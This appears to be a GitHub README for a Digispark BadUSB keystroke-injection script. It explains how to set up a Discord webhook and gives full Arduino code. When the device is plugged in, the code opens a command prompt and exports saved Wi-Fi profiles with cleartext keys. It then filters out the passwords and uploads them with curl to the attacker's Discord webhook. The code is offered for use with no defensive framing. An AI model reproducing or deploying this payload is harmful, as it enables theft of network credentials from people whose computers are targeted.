 ## GRAB AND SEND WIFI PASSWORDS TO YOUR DISCORD CHANNEL

#### STEP 1:
1.Create a Discord Server/Channel

2.<img width="190" alt="image" src="https://user-images.githubusercontent.com/42895491/195396479-791a9c55-8cce-4035-9ed6-fddf79630f7f.png">

go to the edit channel option.

3.<img width="207" alt="image" src="https://user-images.githubusercontent.com/42895491/195396622-ef4c814b-2266-43e7-a9cc-673aa92c49bd.png">

go to integrations.

4.<img width="219" alt="image" src="https://user-images.githubusercontent.com/42895491/195396833-4db55a94-ee94-4f6c-b58b-b6adea0eea8b.png">

create a new web hook.

5.<img width="493" alt="image" src="https://user-images.githubusercontent.com/42895491/195396911-577f9009-e8a0-40fa-8b22-8c698d072e51.png">

copy the web hook url.

#### STEP 2:
##### Change the "FILENAME" to anyname you want your folder to be in Line number 14.
<img width="529" alt="image" src="https://user-images.githubusercontent.com/42895491/195396138-5582d418-d9c5-4d3e-820a-19bf4c447756.png">


##### Also Edit the line number 16 in the Arduino code and insert the following details (* most important Webhook url)

`DigiKeyboard.println("curl -i -H \"Expect:application/json\" -F file=@wifi -F \"payload_json={\\\"wait\\\":true,\\\"content\\\":\\\"ANYCOMMENT\\\",\\\"ANYNAME\\\":\\\"passwords\\\"}\" WEBHOOK_URL"); //curl command which is used to send the passwords to your discord channel/server `

(NOTE: Change replace "WEBHOOK_URL" with your discord's webhook url of any channel.)

  
  #### Example:

    #include "DigiKeyboard.h"
    void setup() {
    pinMode(1, OUTPUT); //LED on Model A
    }
    void loop() {
    DigiKeyboard.update();
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
    DigiKeyboard.delay(300);
    DigiKeyboard.println("cmd");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("netsh wlan export profile key=clear");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("powershell Select-String -Path Wi-Fi-* -Pattern 'keyMaterial' > wifi");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("curl -i -H \"Expect:application/json\" -F file=@wifi -F \"payload_json=   {\\\"wait\\\":true,\\\"content\\\":\\\"Ashfaque\\\",\\\"ANYNAME\\\":\\\"passwords\\\"}\" https://discord.com/api/webhooks/996103446740619284/"); // this is a dummy webhook url.
    DigiKeyboard.delay(500);
    DigiKeyboard.println("exit");
    digitalWrite(1, HIGH); //led on
    DigiKeyboard.delay(90000);
    }
  
  ### Your are all set to upload the code.


